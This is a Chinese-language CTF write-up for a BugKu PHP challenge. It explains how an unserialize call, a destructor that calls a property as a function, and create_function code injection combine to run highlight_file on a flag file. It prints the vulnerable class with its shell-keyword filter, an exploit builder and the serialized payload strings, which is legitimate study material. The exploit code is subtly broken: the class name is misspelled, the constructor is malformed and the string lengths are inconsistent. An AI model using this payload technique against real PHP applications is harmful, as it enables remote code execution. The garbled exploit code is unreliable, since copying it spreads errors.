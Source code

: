 ### PHP Create_function() 反序列化

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/6810303458cb8da5c8d2bb2b.png)

打开网页给出了源码

```php
<?php

if (isset($_GET['p'])) {
    $p = unserialize($_GET['p']);
}
show_source("index.php");

class Noteasy
{
    private $a;
    private $b;

    // 构造函数，会在类的对象在创建时自动调用
    public function __construct($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
        $this->check($a.$b);
        eval($a.$b);
    }


    // 析构函数，在对象销毁时自动调用
    public function __destruct()
    {
        $a = (string)$this->a;
        $b = (string)$this->b;
        $this->check($a.$b);
        $a("", $b);
    }


    private function check($str)
    {
        if (preg_match_all("(ls|find|cat|grep|head|tail|echo)", $str) > 0) die("You are a hacker, get out");
    }


    public function setAB($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
    }
}
```

首先，反序列化不调用构造函数

因为反序列化时通过读取对象的字节流来恢复对象的状态，而不是通过调用对象的构造函数来创建对象

所以直接来看析构函数

```php
public function __destruct()
{
    // 将属性 $a 转换为字符串
    $a = (string)$this->a;
    
    // 将属性 $b 转换为字符串
    $b = (string)$this->b;
    
    // 调用 check 方法，传入 $a 和 $b 连接后的字符串
    $this->check($a.$b);
    
    // 重点代码
    // 将 $a 作为函数调用，第一个参数为空字符串，第二个参数为 $b
    $a("", $b);
}
```

但是空的的函数不能执行，所以我们要构造一个

这里要利用 `Create_function()` 函数

```php
$func = create_function('$a, $b', 'return $a + $b;');
echo $func(2, 3); // 输出 5
```

`create_function` 实际上会在内部执行以下操作：

1. 生成一个唯一的函数名(如 `__lambda_func`)
2. 用给定的参数和代码体创建一个新函数
3. 返回这个函数名以便后续调用

构造序列化代码

```php
<?php
 
Class Noteast{
 
Private $a;
 
Private $b;
 
Public function_construct($a,$b){
 
$this->a=$a;
 
$this->b=$b;
 
}
 
$object=new Noteasy("create_function",';}highlight_file("/flag");/*;');
 
Echo serialize($object);
 
}
```

这样相当于

```php
create_function('', ';}highlight_file("/flag");/*;')
```

实际创建的代码为

```php
function __lambda_func() {
    ;}highlight_file("/flag");/*;
}
```

得到

```php
O:7:"Noteasy":2:{s:10:"Noteasya";s:15:"create_function";s:10:"Noteasyb";s:21:';}highlight_file("/flag");/*;";}
```

需要注意因为是 `private` 属性，所以不能直接使用

应该为 `\00类名\00`

```php
O:7:"Noteasy":2:{s:10:"\00Noteasy\00a";s:15:"create_function";s:10:"\00Noteasy\00b";s:29:";}highlight_file("/flag");/*";}
```

![](https://pic1.imgdb.cn/item/6810301658cb8da5c8d2bb1a.png)
